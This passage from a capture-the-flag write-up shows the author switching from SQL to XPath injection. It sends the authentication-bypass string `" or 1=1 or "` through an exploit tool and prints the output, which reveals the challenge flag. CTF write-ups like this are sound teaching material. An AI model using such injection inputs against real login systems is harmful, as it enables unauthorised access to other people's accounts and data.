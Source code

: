 Nope, it makes the application behave strangely too… It looks like SQL, but it isn’t. Maybe it’s XPath? Let’s retry the earlier injection with lowercase characters.

```
Nightlysploit $> " or 1=1 or "
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[+] Server answered: The flag is: D34RG0DILUVC00KIEZ
```

Boom. The flag is `D34RG0DILUVC00KIEZ`.

## Other write-ups and resources

* none yet
